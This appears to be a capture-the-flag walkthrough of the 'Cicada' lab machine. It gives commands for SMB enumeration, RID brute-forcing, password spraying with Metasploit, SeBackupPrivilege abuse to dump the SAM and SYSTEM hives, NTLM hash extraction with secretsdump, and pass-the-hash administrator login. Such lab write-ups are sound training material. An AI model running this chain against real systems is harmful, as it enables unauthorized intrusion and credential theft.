

 

## Cicada 

**Step1:**

Ping to check everything is ok 

`Command: ping <ip address>`


Now we run an Nmap command to find an open ports 

`Commad: nmap 10.10.11.35`

 

Here we can see number of ports are open 

Let try a service version scan to check running service 

`Command: nmap -sV 10.10.11.35`

 

Here we can see different port with the service running 

Let try with smb enumeration 

First check with nmap scripting engine 

`Command: nmap -p 445 10.10.11.35 --script=smb-enum-services`

 

Here we are not able to find a successful result 

Now we check if we are are to check smb shares 

`Command: smbclient -L //10.10.11.35/ -N`

 

Yes we can see different type of shares 

I have try to log into share and done but not able to run a command 

`Command: smbclient //10.10.11.35/DEV -N`

 

In HR Share I found a useful Notice from HR 

`Command: smbclient //10.10.11.35/HR -N `

 

After opening the test file I found a default password but no user. 

Cat file

 


Now we bruteforce rid to find different user account. Using username guest and password 
empty. 

`Command: crackmapexec smb  10.10.11.35  -u "guest" -p '' --rid-brute `

 

And we have found different user account. 

Now we create a username.txt of the enumerated user and set password to default password 
found from the lab. 

Using Metasploit module smb_login 

```msfconsole
Use auxiliary/scanner/smb/smb_login 
set USER_FILE /home/kali/username.txt 
set SMBPASS <password here> 
run
```

 

 

From the result we found a username for the default password. 

Using this username and password I try to open different shares but still not found any thing. 
So i decide to further enumerate users with this username and password but found nothing  

```
Command: crackmapexec smb  10.10.11.35  -u "michael.wrightson" -p 
'<password here>' --rid-brute 
```

 

So I decide to use netexec to brute force rid and now I found a password for user. 

```
Command  netexec smb 10.10.11.35 -u michael.wrightson -p  '<password here>' --users --rid-brute 
```

 

Now use username and password to access the share 

```
Command: smbclient \\\\10.10.11.35\\DEV -U david.orelious 
Password: <password here> 
```

 

In DEV share I found a script on opening the file I found username for and a password. 

`Command: cat Backuo_Script.ps1 `

 

Using this username and password we access share C$ and here I found a user flag. 

`Command: smbclient \\\\10.10.11.35\\C$ -U emily.oscars `

`Password: <password here>`

 

Under \Users\emily.oscars.CICADA\Desktop\

 

User Flag

 

Now we have to elevate priviledge on window sytem. For thi we use window remote 
management tool  

`Command: evil-winrm -i 10.10.11.35 -u emily.oscars -p '<password here>' `

It will open a powershell session on a remote machine

 

Now we check our current privilege 

`Command:  whoami /priv`

 

Now I found a Brilliant writeup to elevate priviledge using 
[SeBackupPrivilege](https://starlox.medium.com/windows-privesc-with-sebackupprivilege-enable-b9e949219caf) 

let check with user account detail 

command: net user emily.oscars

 

Now we use this github repositiory to install DLL files 

`https://github.com/giuliano108/SeBackupPrivilege `

 

Once file are downloaded on our sytem we will upload it in a temp folder. If no then we make 
a temp folder 

Command: upload /file/to/path 

 

After both dll files are uploaded. We load a powershell module to abuse SeBackupPrivilege. 

```
Command: 
Import-Module .\SeBackupPrivilegeCmdLets.dll 
Import-Module .\SeBackupPrivilegeUtils.dll
```

 

Now we move the sam and system files from HKLM registry hiver to 

C:\Users\emily.oscars\temp\sam 

```
Command: 
reg save hklm\sam C:\Users\emily.oscars\temp\sam 
reg save hklm\system C:\Users\emily.oscars\temp\system
```

  

Finally download these files on our system 

```
Command:  
download sam 
download system 
```

 

Usinf secretdump.py we extract NTLM hashes 

`Command: python3 secretsdump.py -sam sam -system system LOCAL `

 

Again go to remote poweshell using user admin and a hash 
```
Command: sudo evil-winrm  -i 10.10.11.35 -u administrator -H <Admin hash> 
```
 

And under Desktop we found a root.txt file. 